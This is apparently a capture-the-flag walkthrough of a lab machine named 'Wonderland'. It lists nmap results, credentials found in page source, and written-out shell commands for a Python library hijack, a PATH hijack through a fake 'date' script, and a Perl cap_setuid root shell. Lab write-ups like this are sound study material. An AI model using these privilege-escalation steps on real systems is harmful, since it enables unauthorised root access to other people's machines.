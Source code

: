 # Wonderland

## nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  5 06:27:31 2021 -- 1 IP address (1 host up) scanned in 20.27 seconds

```


## Enumeration

![](https://i.imgur.com/mcrta85.png)

- Found /r/a/b/b/i/t directory
- stego just gave us hints to follow the r a b b i t
- Viewing source code on that directory gave us creds

![](https://i.imgur.com/VUJ9fyn.png)

- `alice:HowDothTheLittleCrocodileImproveHisShiningTail`

## Foothold
- Ssh into box with those creds and it works
- Run sudo -l and we can see that we can run python and the script as the user rabbit
- create random.py 
```python
import os
os.system("/bin/bash")
```
- Run the script `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

- We now have shell as user rabbit
- Navigate to /home/rabbit and we see a teaParty

- Realize that teaParty script runs the bash command `date`
- Create a date script in our directory that runs `/bin/bash`
- Export our current working directory into our PATH with `bash
export PATH=/tmp:$PATH`
- Run the teaParty binary
- We are hatter, cat out hatter's password: WhyIsARavenLikeAWritingDesk?

## Priv Esc
- Run linpeas, discover that /usr/bin/perl has the `cap_setuid` capability
- GTFO bin it `
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`
- We are root 



